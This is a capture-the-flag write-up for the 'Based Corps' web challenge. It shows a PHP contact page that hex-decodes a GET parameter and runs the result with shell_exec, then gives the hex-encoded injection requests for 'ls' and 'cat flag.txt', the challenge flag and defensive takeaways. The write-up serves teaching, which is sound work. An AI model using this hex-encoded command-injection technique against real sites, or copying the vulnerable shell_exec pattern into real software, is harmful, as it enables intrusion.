



# Based Corps — Web Challenge Writeup (325 pts)

**Challenge name:** Based Corps  
**Author:** Rayene9052  
**Difficulty:** Medium  
**Hint:** *What's your favorite base? mine is hexadecimal!*  

---

## Challenge Overview


This challenge demonstrates a **command injection vulnerability** hidden behind
what looks like safe input handling.  
The twist: **commands are only executed if they are hex-encoded**.

By understanding how the backend decodes hexadecimal input, we can bypass the
filters and execute system commands.

---

## Application Recon

### Home Page


The website looks like a normal corporate portal with several pages:
- Home
- Projects
- Documents
- About
- **Contact** (interesting one 👀)

---

## Vulnerable Endpoint — Contact Page



User-controlled input is sent via the **`message` GET parameter**.

Trying normal input:


The input is simply reflected back — no execution.

At first glance, this might look like XSS or SSTI, but neither works here.

---

## Source Code Analysis

Relevant backend logic from `contact.php`:

```php
if (preg_match('/\A[0-9a-fA-F]{2,1024}\z/', $trimmed)) {
    $decoded = hex2bin($trimmed);
    if ($decoded !== false) {
        shell_exec($decoded);
    }
}
```

### Key Observations

- Only **hexadecimal input** is decoded
- Decoded input is passed directly to `shell_exec`
- Plain text is treated as harmless user content

This means:

> **Hex = execution**  
> **Plain text = safe display**

---

## Step 1 — Failed Direct Command Injection

Trying to inject directly:

```
message=ls
```


❌ No execution — input is treated as normal text.

---

## Step 2 — Hex-Encode the Command

The challenge hint explicitly mentions **hexadecimal**.

Using CyberChef:

### Encode `ls`



Result:

```
ls → 6c73
```

Submit:

```
/contact.php?message=6c73
```



✅ **Command executed successfully**

Directory listing reveals:

```
about.php
assets/
contact.php
documents.php
flag.txt
index.php
...
```

We spot **flag.txt** 🎯

---

## Step 3 — Read the Flag

### Encode `cat flag.txt`


Hex output:

```
63617420666c61672e747874
```

Request:

```
/contact.php?message=63617420666c61672e747874
```


---

## Flag

```
SecurinetsISTIC{c0mm4nd_inj3ct10n_fr_t00_risky}
```

---

## Root Cause Analysis

This vulnerability exists because:

- Input validation is done **before decoding**
- Encoded data is incorrectly trusted
- `shell_exec()` is used on decoded user input

This is a classic case of:

> ❌ **Filtering encoded input instead of decoded data**

---

## Security Takeaways

- Encoding is **not sanitization**
- Always validate **after decoding**
- Never pass user-controlled data to `shell_exec`
- Allowlists can still be dangerous if misused

---

## Payload Summary

| Action | Command | Hex Payload |
|------|--------|------------|
| List files | `ls` | `6c73` |
| Read flag | `cat flag.txt` | `63617420666c61672e747874` |

---

Happy hacking 🚀  
